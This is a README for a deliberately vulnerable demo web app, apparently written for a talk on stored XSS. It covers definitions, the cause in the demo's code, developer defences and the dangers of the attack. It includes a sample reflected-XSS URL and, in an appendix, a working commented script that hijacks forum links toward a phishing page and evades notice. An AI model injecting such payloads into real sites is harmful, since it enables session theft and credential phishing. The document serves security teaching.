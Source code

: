 # xss-demo-aug-2019
A (deliberately!) broken site to demonstrate the power of XSS exploitation.

# Stored XSS vulnerabilities
## Presentation structure
1. Definition of stored and reflected XSS attacks
1. Demo of XSS in a web app
1. Explanation of how XSS happened in the demo
1. Steps developers can take to protect against XSS
1. Wider implications and dangers of XSS

## Definition of XSS
### Reflected
Reflected XSS occurs when an attacker crafts a URL containing a parameter or path that will be displayed in a target browser. The attacker usually tricks a target user into clicking on this malicious URL, and can then gain access to the user's browser through a script within the URL. and example of this could be the URL:

`https://www.example.com?search=<script>alert("boo!");</script>cat%20pictures`
### Stored
Stored XSS happens when an attacker can directly upload HTML to a site through a user input field whose contents will be displayed elsewhere on the site, such as a username field. If the input is not escaped by the server, there is a risk it will be rendered as HTML, which means outside scripts can be injected into the page.

_This demo focuses solely on stored XSS attacks_

## Demonstration
The demo app has three fields (of which one has been left vulnerable) where users can input information which will be displayed elsewhere on the site:
- Username
- Post titles
- Post bodies

## How XSS happened in the demo app
Generally speaking, the cause of stored XSS is failure to escape user input. In the case of this app, two lines of code were responsible for the vulnerability:
1. Neglecting to user the `xss` node module to sanitise the input: [/routes/index.js#L59](https://github.com/phoebe-bee/xss-demo-aug-2019/blob/a47b1d299013536888f4b850ea5b667f36c89798/routes/index.js#L59)
1. Using the wrong number of braces in the handlebars template, causing the template to render the variable without escaping the value: [/views/forum_dashboard.hbs#L18](https://github.com/phoebe-bee/xss-demo-aug-2019/blob/a47b1d299013536888f4b850ea5b667f36c89798/views/forum_dashboard.hbs#L18)

## How developers can protect against XSS
As the above section would suggest, the way to avoid XSS is to ensure all user input is escaped before it reaches the browser so there is no possibility it will be rendered as HTML. However in practice this can be easier said than done, particularly in a complex web app.

Developers can introduce coding standards such as prefixing their variable names with whether they are safe or unsafe, (example detailed in this article ["Making wrong code look wrong"](https://www.joelonsoftware.com/2005/05/11/making-wrong-code-look-wrong/)) to reduce the likelihood that unescaped text will make it to the browser. Good code review practices can help maintain these coding standards, too.

There is also the standard solution of not trying to roll your own security: if you can rely on trusted frameworks which you keep up to date, you can mitigate some amount of risk. For example: the templating engine I used to make this site is hard to slip XSS by, as the default behaviour is to always escape values it is asked to display.

## Wider implications and dangers of XSS
When a potential XSS vulnerability is found during a pentest, we tend to add a simple script such as `alert(1);`. The truth is, though, that some incredibly malicious code can be contained within the script tags.

Any information viewable by the browser, such as session and CSRF protection tokens, are accessible any script running on the page. This means if an attacker can inject their own script into the page, they will be able to steal sessions and perform actions masquerading as legitimate users. All user accountability goes out of the window - how can you know if it really is an admin going rogue and deleting half the site, or if they went to an infected page and had their session stolen?

I would argue that even data which is supposed to be inaccessible to the browser, such as passwords, is retrievable with the right script. A version of the annotated script below changes the hyperlinks on a page to send people to the site of an attacker's choice... for example, a phishing site made to look like an 'oops, please log back in page' from the original site.

It's bad enough when you consider that a phishing attack could hand user credentials over to malicious actors, but when taken into account how many people re-use passwords between accounts, it's horrifying how much damage could be done with this relatively simple script.

## Appendix: Commented phishing script from demo

```html
<script type = "text/javascript">
$(document).ready(function () {
  function getCookie(n) {
    // returns the value of a named cookie
    var name = n + "=";
    var decodedCookie = decodeURIComponent(document.cookie);
    var ca = decodedCookie.split(";");
    for (var i = 0; i < ca.length; i++) {
      var c = ca[i];
      while (c.charAt(0) == " ") {
        c = c.substring(1);
      }
      if (c.indexOf(name) == 0) {
        return c.substring(name.length, c.length);
      }
    }
    return "";
  }

  function setCookie() {
    // Make a new cookie called 'h' (for 'harvested') which pulls the first, middle and last chars from the session ID
    // This will be used to check if the session ID has been updated and needs to be stored
    // using 3 check chars is less suspicious than storing the entire session ID
    var sid = getCookie("connect.sid");
    document.cookie = "h="+ sid.charAt(0) + sid.charAt(sid.length - 1) + sid.charAt((sid.length -1)/2) + ";expires=session;path=/";
  }

  function isNewSession() {
    // Check the value of 'h' against the current session ID
    var sid = getCookie("connect.sid");
    var h = getCookie("h");
    if (h === sid.charAt(0) + sid.charAt(sid.length - 1) + sid.charAt((sid.length -1)/2)) {
      return false;
    } else {
      return true;
    }
  }

  var current_page_path = window.location.pathname;
  // If the session ID is one we've seen before, don't replace the hyperlinks.
  // That way the redirect to the 'login' page looks like a one-off error to
  // the user, and we don't collect the same session ID more than once
  if (!current_page_path.includes("/post") && isNewSession()) {
    // Only run the script on the forum home page, leave individual post pages
    // alone
    $("td > a").each(function(i) {
      console.log(document.cookie);
      var original_path = $(this).attr("href");
      var hostname = window.location.hostname;
      // Replace all links in the table of posts with links to the phishing site
      // Pass along the ID of the post the user was trying to see (so we can
      // direct them back to it after 'logging them back in')
      var new_href = "http://" + hostname + ":1337" + original_path;
      $(this).prop("href", new_href);
    });
    setCookie();
  }
});
// Don't forget to add a normal-looking title so people don't get suspicious!
</script>Important announcement```
